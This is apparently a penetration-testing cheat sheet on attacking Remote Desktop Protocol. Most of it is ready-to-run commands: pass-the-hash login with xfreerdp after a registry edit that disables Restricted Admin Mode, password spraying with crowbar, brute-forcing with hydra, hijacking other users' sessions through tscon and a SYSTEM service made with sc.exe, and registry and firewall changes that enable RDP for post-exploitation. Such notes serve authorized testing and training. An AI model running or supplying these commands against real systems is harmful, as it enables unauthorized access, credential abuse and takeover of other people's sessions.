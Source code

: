 # RDP

## **Introduction**

> * By default, Remote Desktop Protocol (RDP) uses port TCP/3389.
> * RDP is a protocol developed by Microsoft which provides a user with a graphical interface to connect to another computer over a network connection.
> * It is one of the most popular administration tools, allowing system administrators to centrally control their remote systems with the same functionality as if they were on-site.
> * Unfortunately, while RDP greatly facilitates remote administration of distributed IT systems, it also creates another gateway for attacks.

***

## **RDP Enumeration & Interaction Commands**

**Login to RDP:**

* Option 1: `xfreerdp /v:10.10.10.100 /u:admin /p:password`
* Option2: `rdesktop -u admin -p password123 10.10.10.100`
* Add a local directory as an SMB Share: `xfreerdp /v:10.10.10.100 /u:admin /p:password +home-drive`
* Pass the Hash login:
  1. Disable Restricted Admin Mode: `reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f`
  2. Perform PtH: `xfreerdp /v:10.10.10.100 /u:admin /pth:A9FDFA038C4B75EBC76DC855DD74F0DA`

**Finding Credentials:**

* Password spraying against the RDP service: `crowbar -b rdp -s 192.168.220.142/32 -U users.txt -c 'password123'`
* Brute-forcing the RDP service: `hydra -L usernames.txt -p 'password123' 10.10.10.100 rdp`

***

## **RDP Session Hijacking**

> To successfully impersonate a user without their password, we need to have SYSTEM privileges and use the Microsoft tscon.exe binary that enables users to connect to another desktop session.

**Performing Session Hijacking:**

1. **With SYSTEM Privileges:**
   * Impersonate a user without its password: `tscon #{TARGET_SESSION_ID} /dest:#{OUR_SESSION_NAME}`
2. **Without SYSTEM Privileges:**
   * Create a windows service running as SYSTEM: `sc.exe create servicename binpath= "cmd.exe /k tscon 1 /dest:rdp-tcp#0"`
   * Start the poisoned service: `net start servicename`

***

## Enabling RDP (Requires local Administrator)

If you have control over a `local Administrator` account, you can enable RDP and use `xfreerdp` to perform `post-exploitation` in better conditions

To do so, follow these steps:

1. enable RDP: `reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f`
2. enable RDP from the firewall config: `netsh advfirewall firewall set rule group="remote desktop" new enable=Yes`
3. disable the restricted admin mode: `reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f`
